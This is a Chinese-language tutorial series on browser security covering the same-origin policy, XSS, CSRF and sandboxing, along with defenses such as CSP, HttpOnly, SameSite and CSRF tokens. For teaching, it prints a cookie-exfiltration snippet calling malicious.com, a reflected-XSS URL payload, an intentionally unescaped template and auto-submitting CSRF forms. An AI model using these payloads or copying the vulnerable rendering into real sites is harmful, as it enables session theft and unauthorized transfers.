要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名 time.geekbang.org，以及相同的端口 443，所以我们就说这两个 URL 是同源的。

```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。

1. DOM 层面。同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。
2. 数据层面。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。你可以自己试一下，这里我们就不做演示了。
3. 网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 页面中可以嵌入第三方资源

我们在文章开头提到过，Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码



当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick() {
  let url = `http://malicious.com?cookie = ${document.cookie}`;
  open(url);
}
onClick();
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。

### 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。

## 总结

同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信

# 跨站脚本攻击 XSS：为什么 cookie 中有 httpOnly 属性

通过上篇文章的介绍，我们知道了同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web。这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制；默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。

## 什么是 XSS 攻击

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。下面我们就来看看，如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情

- 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
- 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。

除了以上几种情况外，恶意脚本还能做很多其他的事情，这里就不一一介绍了。总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了。

## 恶意脚本是怎么注入的

现在我们知道了页面中被注入恶意的 JavaScript 脚本是一件非常危险的事情，所以网站开发者会尽可能地避免页面中被注入恶意脚本。要想避免站点被注入恶意脚本，就要知道有哪些常见的注入方式。通常情况下，主要有存储型 XSS 攻击、反射型 XSS 攻击和基于 DOM 的 XSS 攻击三种方式来注入恶意脚本。

### 存储型 XSS 攻击

我们先来看看存储型 XSS 攻击是怎么向 HTML 文件中注入恶意脚本的，你可以参考下图



通过上图，我们可以看出存储型 XSS 攻击大致需要经过如下步骤：

- 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；
- 然后用户向网站请求包含了恶意 JavaScript 脚本的页面；
- 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。
- 下面我们来看个例子，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞。起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一段 JavaScript，如下图所示：



当黑客将专辑名称设置为一段 JavaScript 代码并提交时，喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中。然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行（如下图），这样就可以获取用户的 Cookie 等数据信息



当用户打开黑客设置的专辑页面时，服务器也会将这段恶意 JavaScript 代码返回给用户，因此这段恶意脚本就在用户的页面中执行了。

恶意脚本可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器，如下图所示：



黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号（如下图），并利用用户账号进行一些恶意操作。


以上就是存储型 XSS 攻击的一个典型案例，这是乌云网在 2015 年曝出来的，虽然乌云网由于某些原因被关停了，但是你依然可以通过这个站点来查看乌云网的一些备份信息。

### 反射型 XSS 攻击

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。

这样讲有点抽象，下面我们结合一个简单的 Node 服务程序来看看什么是反射型 XSS。首先我们使用 Node 来搭建一个简单的页面环境，搭建好的服务代码如下所示：

```js
var express = require('express');
var router = express.Router();

/* GET home page. */
router.get('/', function(req, res, next) {
  res.render('index', { title: 'Express', xss: req.query.xss });
});

module.exports = router;
```

```html
<html>
  <head>
    <title><%= title %></title>
    <link rel="stylesheet" href="/stylesheets/style.css" />
  </head>
  <body>
    <h1><%= title %></h1>
    <p>Welcome to <%= title %></p>
    <div>
      <%- xss %>
    </div>
  </body>
</html>
```

上面这两段代码，第一段是路由，第二段是视图，作用是将 URL 中 xss 参数的内容显示在页面。我们可以在本地演示下，比如打开 `http://localhost:3000/?xss=123` 这个链接，这样在页面中展示就是“123”了（如下图），是正常的，没有问题的。


> 但当打开 `http://localhost:3000/?xss=<script>alert('你被xss攻击了')</script>` 这段 URL 时，其结果如下图所示：



通过这个操作，我们会发现用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，所以对于一些链接我们一定要慎之又慎。

另外需要注意的是，Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

### 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据

## 如何阻止 XSS 攻击

我们知道存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞。而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞。

但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。

所以要阻止 XSS 攻击，我们可以通过阻止恶意 JavaScript 脚本的注入和恶意消息的发送来实现。

接下来我们就来看看一些常用的阻止 XSS 攻击的策略

### 服务器对输入脚本进行过滤或转码

不管是反射型还是存储型 XSS 攻击，我们都可以在服务器端将一些关键的字符进行转码，比如最典型的：

```
code:<script>alert('你被 xss 攻击了')</script>
```

这段代码过滤后，只留下了 code

这样，当用户再次请求该页面时，由于 `<script>` 标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。

除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：

```
code:&lt;script&gt;alert(&#39; 你被 xss 攻击了 &#39;)&lt;/script&gt;
```

> 经过转码之后的内容，如 `<script>` 标签被转换为 `&lt;script&gt;`，因此即使这段脚本返回给页面，页面也不会执行这段脚本

### 充分利用 CSP

虽然在服务器端执行过滤或者转码可以阻止 XSS 攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把 CSP 等策略充分地利用起来，以降低 XSS 攻击带来的风险和后果。

实施严格的 CSP 可以有效地防范 XSS 攻击，具体来讲 CSP 有如下几个功能：

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

因此，利用好 CSP 能够有效降低 XSS 攻击的概率。

### 使用 HttpOnly 属性

由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。

通常服务器可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 HTTP 响应头来设置的，下面是打开 Google 时，HTTP 响应头中的一段

```
set-cookie: NID=189=M8q2FtWbsR8RlcldPVt7qkrqR38LmFY9jUxkKo3-4Bi6Qu_ocNOat7nkYZUTzolHjFnwBw0izgsATSI7TZyiiiaV94qGh-BzEYsNVa7TZmjAYTxYTOM9L_-0CN9ipL6cXi8l6-z41asXtm2uEwcOC5oh9djkffOMhWqQrlnCtOI; expires=Sat, 18-Apr-2020 06:52:22 GMT; path=/; domain=.google.com; HttpOnly
```

我们可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie。顾名思义，使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly，如下图：


从图中可以看出，NID 这个 Cookie 的 HttpOlny 属性是被勾选上的，所以 NID 的内容是无法通过 document.cookie 是来读取的。

由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。因此一些比较重要的数据我们建议设置 HttpOnly 标志。

## 总结

XSS 攻击就是黑客往页面中注入恶意脚本，然后将页面的一些重要数据上传到恶意服务器。常见的三种 XSS 攻击模式是存储型 XSS 攻击、反射型 XSS 攻击和基于 DOM 的 XSS 攻击。

这三种攻击方式的共同点是都需要往用户的页面中注入恶意脚本，然后再通过恶意脚本将用户数据上传到黑客的恶意服务器上。而三者的不同点在于注入的方式不一样，有通过服务器漏洞来进行注入的，还有在客户端直接注入的。

针对这些 XSS 攻击，主要有三种防范策略，第一种是通过服务器对输入的内容进行过滤或者转码，第二种是充分利用好 CSP，第三种是使用 HttpOnly 来保护重要的 Cookie 信息。

当然除了以上策略之外，我们还可以通过添加验证码防止脚本冒充用户提交危险操作。而对于一些不受信任的输入，还可以限制其输入长度，这样可以增大 XSS 攻击的难度

# CSRF 攻击：陌生链接不要随便点

XSS 的攻击方式是黑客往用户的页面中注入恶意脚本，然后再通过恶意脚本将用户页面的数据上传到黑客的服务器上，最后黑客再利用这些数据进行一些恶意操作。XSS 攻击能够带来很大的破坏性，不过另外一种类型的攻击也不容忽视，它就是我们今天要聊的 CSRF 攻击。

相信你经常能听到的一句话：“别点那个链接，小心有病毒！”点击一个链接怎么就能染上病毒了呢？

我们结合一个真实的关于 CSRF 攻击的典型案例来分析下，在 2007 年的某一天，David 无意间打开了 Gmail 邮箱中的一份邮件，并点击了该邮件中的一个链接。过了几天，David 就发现他的域名被盗了。不过几经周折，David 还是要回了他的域名，也弄清楚了他的域名之所以被盗，就是因为无意间点击的那个链接。

那 David 的域名是怎么被盗的呢？

我们结合下图来分析下 David 域名的被盗流程：



- 首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了。
- 接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中。
- 最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了。

以上就是 David 的域名被盗的完整过程，其中前两步就是我们今天要聊的 CSRF 攻击。David 在要回了他的域名之后，也将整个攻击过程分享到他的站点上了

## 什么是 CSRF 攻击

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

下面我们以极客时间官网为例子，来分析这三种攻击方式都是怎么实施的。这里假设极客时间具有转账功能，可以通过 POST 或 Get 来实现转账，转账接口如下所示：

```
# 同时支持 POST 和 GET
# 接口
https://time.geekbang.org/sendcoin
# 参数
## 目标用户
user
## 目标金额
number
```

有了上面的转账接口，我们就可以来模拟 CSRF 攻击了。

### 自动发起 Get 请求

黑客最容易实施的攻击方式是自动发起 Get 请求，具体攻击方式你可以参考下面这段代码：

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF 攻击演示</h1>
    
  </body>
</html>
```

这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了。

### 自动发起 POST 请求

除了自动发送 Get 请求之外，有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求，当用户打开黑客的站点时，是自动提交 POST 请求，具体的方式你可以参考下面示例代码：

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF 攻击演示</h1>
    <form id="hacker-form" action="https://time.geekbang.org/sendcoin" method="POST">
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script>
      document.getElementById('hacker-form').submit();
    </script>
  </body>
</html>
```

在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

### 引诱用户点击链接

除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

```html
<div>
  
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" target="_blank">
    点击下载美女图片
  </a>
</div>
```

这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

以上三种就是黑客经常采用的攻击方式。如果当用户登录了极客时间，以上三种 CSRF 攻击方式中的任何一种发生时，那么服务器都会将一定金额的极客币发送到黑客账户。

到这里，相信你已经知道什么是 CSRF 攻击了。和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击

## 如何防止 CSRF 攻击

了解了 CSRF 攻击的一些手段之后，我们再来看看 CSRF 攻击的一些“特征”，然后根据这些“特征”分析下如何防止 CSRF 攻击。下面是我总结的发起 CSRF 攻击的三个必要条件：

1. 目标站点一定要有 CSRF 漏洞；
2. 用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态；
3. 需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛。

满足以上三个条件之后，黑客就可以对用户进行 CSRF 攻击了。这里还需要额外注意一点，与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本，因此黑客是无法通过 CSRF 攻击来获取用户页面数据的；其最关键的一点是要能找到服务器的漏洞，所以说对于 CSRF 攻击我们主要的防护手段是提升服务器的安全性。

要让服务器避免遭受到 CSRF 攻击，通常有以下几种途径。

### 充分利用好 Cookie 的 SameSite 属性

通过上面的介绍，相信你已经知道了黑客会利用用户的登录状态来发起 CSRF 攻击，而 Cookie 正是浏览器和服务器之间维护登录状态的一个关键数据，因此要阻止 CSRF 攻击，我们首先就要考虑在 Cookie 上来做文章。

通常 CSRF 攻击都是从第三方站点发起的，要防止 CSRF 攻击，我们最好能实现从第三方站点发送请求时禁止 Cookie 的发送，因此在浏览器通过不同来源发送 HTTP 请求时，有如下区别：

- 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键 Cookie 数据到服务器；
- 如果是同一个站点发起的请求，那么就需要保证 Cookie 数据正常发送。

而我们要聊的 Cookie 中的 SameSite 属性正是为了解决这个问题的，通过使用 SameSite 可以有效地降低 CSRF 攻击的风险。

那 SameSite 是怎么防止 CSRF 攻击的呢？

在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项，如下：


SameSite 选项通常有 Strict、Lax 和 None 三个值。

- Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。简言之，如果你从极客时间的页面中访问 InfoQ 的资源，而 InfoQ 的某些 Cookie 设置了 SameSite = Strict 的话，那么这些 Cookie 是不会被发送到 InfoQ 的服务器上的。只有你从 InfoQ 的站点去请求 InfoQ 的资源时，才会带上这些 Cookie。
- Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
- 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。

> 对于防范 CSRF 攻击，我们可以针对实际情况将一些关键的 Cookie 设置为 Strict 或者 Lax 模式，这样在跨站点请求时，这些关键的 Cookie 就不会被发送到服务器，从而使得黑客的 CSRF 攻击失效。

### 验证请求的来源站点

接着我们再来了解另外一种防止 CSRF 攻击的策略，那就是在服务器端验证请求来源的站点。由于 CSRF 攻击大多来自于第三方站点，因此服务器可以禁止来自第三方站点的请求。那么该怎么判断请求是否来自第三方站点呢？

这就需要介绍 HTTP 请求头中的 Referer 和 Origin 属性了。

Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。比如我从极客时间的官网打开了 InfoQ 的站点，那么请求头中的 Referer 值是极客时间的 URL，如下图：


虽然可以通过 Referer 告诉服务器 HTTP 请求的来源，但是有一些场景是不适合将来源 URL 暴露给服务器的，因此浏览器提供给开发者一个选项，可以不用上传 Referer 值，具体可参考 Referrer Policy

但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性，如下图：



从上图可以看出，Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。在这里需要补充一点，Origin 的值之所以不包含详细路径信息，是有些站点因为安全考虑，不想把源站点的详细路径暴露给服务器。

因此，服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。

### CSRF Token

除了使用以上两种方式来防止 CSRF 攻击之外，还可以采用 CSRF Token 来验证，这个流程比较好理解，大致分为两步。

第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。你可以参考下面示例代码：

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="https://time.geekbang.org/sendcoin" method="POST">
      <input type="hidden" name="csrf-token" value="gdshtr45q1g" />
      <input type="text" name="user" />
      <input type="text" name="number" />
      <input type="submit" />
    </form>
  </body>
</html>
```

第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。

## 总结

我们结合一个实际案例介绍了 CSRF 攻击，要发起 CSRF 攻击需要具备三个条件：目标站点存在漏洞、用户要登录过目标站点和黑客需要通过第三方站点发起攻击。

根据这三个必要条件，我们又介绍了该如何防止 CSRF 攻击，具体来讲主要有三种方式：充分利用好 Cookie 的 SameSite 属性、验证请求的来源站点和使用 CSRF Token。这三种方式需要合理搭配使用，这样才可以有效地防止 CSRF 攻击。

再结合前面两篇文章，我们可以得出页面安全问题的主要原因就是浏览器为同源策略开的两个“后门”：一个是在页面中可以任意引用第三方资源，另外一个是通过 CORS 策略让 XMLHttpRequest 和 Fetch 去跨域请求资源。

为了解决这些问题，我们引入了 CSP 来限制页面任意引入外部资源，引入了 HttpOnly 机制来禁止 XMLHttpRequest 或者 Fetch 发送一些关键 Cookie，引入了 SameSite 和 Origin 来防止 CSRF 攻击。

通过这三篇文章的分析，相信你应该已经能搭建 Web 页面安全的知识体系网络了。有了这张网络，你就可以将 HTTP 请求头和响应头中各种安全相关的字段关联起来，比如 Cookie 中的一些字段，还有 X-Frame-Options、X-Content-Type-Options、X-XSS-Protection 等字段，也可以将 CSP、CORS 这些知识点关联起来。当然这些并不是浏览器安全的全部，后面两篇文章我们还会介绍

# 沙盒：页面和系统之间的隔离墙

从稳定性视角来看，单进程架构的浏览器是不稳定的，因为只要浏览器进程中的任意一个功能出现异常都有可能影响到整个浏览器，如页面卡死、浏览器崩溃等。不过浏览器的稳定性并不是本文讨论的重点，我们今天主要聊的是浏览器架构是如何影响到操作系统安全的

浏览器本身的漏洞是单进程浏览器的一个主要问题，如果浏览器被曝出存在漏洞，那么在这些漏洞没有被及时修复的情况下，黑客就有可能通过恶意的页面向浏览器中注入恶意程序，其中最常见的攻击方式是利用缓冲区溢出，不过需要注意这种类型的攻击和 XSS 注入的脚本是不一样的

- XSS 攻击只是将恶意的 JavaScript 脚本注入到页面中，虽然能窃取一些 Cookie 相关的数据，但是 XSS 无法对操作系统进行攻击。
- 而通过浏览器漏洞进行的攻击是可以入侵到浏览器进程内部的，可以读取和修改浏览器进程内部的任意内容，还可以穿透浏览器，在用户的操作系统上悄悄地安装恶意软件、监听用户键盘输入信息以及读取用户硬盘上的文件内容。

> 和 XSS 攻击页面相比，这类攻击无疑是枚“核弹”，它会将整个操作系统的内容都暴露给黑客，这样我们操作系统上所有的资料都是不安全的了。

## 安全视角下的多进程架构

现代浏览器的设计目标是安全、快速和稳定，而这种核弹级杀伤力的安全问题就是一个很大的潜在威胁，因此在设计现代浏览器的体系架构时，需要解决这个问题。



观察上图，我们知道浏览器被划分为浏览器内核和渲染内核两个核心模块，其中浏览器内核是由网络进程、浏览器主进程和 GPU 进程组成的，渲染内核就是渲染进程。那如果我们在浏览器中打开一个页面，这两个模块是怎么配合的呢？

所有的网络资源都是通过浏览器内核来下载的，下载后的资源会通过 IPC 将其提交给渲染进程（浏览器内核和渲染进程之间都是通过 IPC 来通信的）。然后渲染进程会对这些资源进行解析、绘制等操作，最终生成一幅图片。但是渲染进程并不负责将图片显示到界面上，而是将最终生成的图片提交给浏览器内核模块，由浏览器内核模块负责显示这张图片。

设计现代浏览器体系架构时，将浏览器划分为不同的进程是为了增加其稳定性。虽然设计成了多进程架构，不过这些模块之间的沟通方式却有些复杂，也许你还有以下问题：

- 为什么一定要通过浏览器内核去请求资源，再将数据转发给渲染进程，而不直接从进程内部去请求网络资源？
- 为什么渲染进程只负责生成页面图片，生成图片还要经过 IPC 通知浏览器内核模块，然后让浏览器内核去负责展示图片？

通过以上方式不是增加了工程的复杂度吗？

要解释现代浏览器为什么要把这个流程弄得这么复杂，我们就得从系统安全的角度来分析。

## 安全沙箱

不过在解释这些问题之前，我们得先看看什么是安全沙箱。

上面我们分析过了，由于渲染进程需要执行 DOM 解析、CSS 解析、网络图片解码等操作，如果渲染进程中存在系统级别的漏洞，那么以上操作就有可能让恶意的站点获取到渲染进程的控制权限，进而又获取操作系统的控制权限，这对于用户来说是非常危险的。

因为网络资源的内容存在着各种可能性，所以浏览器会默认所有的网络资源都是不可信的，都是不安全的。但谁也不能保证浏览器不存在漏洞，只要出现漏洞，黑客就可以通过网络内容对用户发起攻击。

我们知道，如果你下载了一个恶意程序，但是没有执行它，那么恶意程序是不会生效的。同理，浏览器之于网络内容也是如此，浏览器可以安全地下载各种网络资源，但是如果要执行这些网络资源，比如解析 HTML、解析 CSS、执行 JavaScript、图片编解码等操作，就需要非常谨慎了，因为一不小心，黑客就会利用这些操作对含有漏洞的浏览器发起攻击。

基于以上原因，我们需要在渲染进程和操作系统之间建一道墙，即便渲染进程由于存在漏洞被黑客攻击，但由于这道墙，黑客就获取不到渲染进程之外的任何操作权限。将渲染进程和操作系统隔离的这道墙就是我们要聊的安全沙箱

浏览器中的安全沙箱是利用操作系统提供的安全技术，让渲染进程在执行过程中无法访问或者修改操作系统中的数据，在渲染进程需要访问系统资源的时候，需要通过浏览器内核来实现，然后将访问的结果通过 IPC 转发给渲染进程。

安全沙箱最小的保护单位是进程。因为单进程浏览器需要频繁访问或者修改操作系统的数据，所以单进程浏览器是无法被安全沙箱保护的，而现代浏览器采用的多进程架构使得安全沙箱可以发挥作用。

## 安全沙箱如何影响各个模块功能

我们知道安全沙箱最小的保护单位是进程，并且能限制进程对操作系统资源的访问和修改，这就意味着如果要让安全沙箱应用在某个进程上，那么这个进程必须没有读写操作系统的功能，比如读写本地文件、发起网络请求、调用 GPU 接口等。

了解了被安全沙箱保护的进程会有一系列的受限操作之后，接下来我们就可以分析渲染进程和浏览器内核各自都有哪些职责，如下图：



通过该图，我们可以看到由于渲染进程需要安全沙箱的保护，因此需要把在渲染进程内部涉及到和系统交互的功能都转移到浏览器内核中去实现。

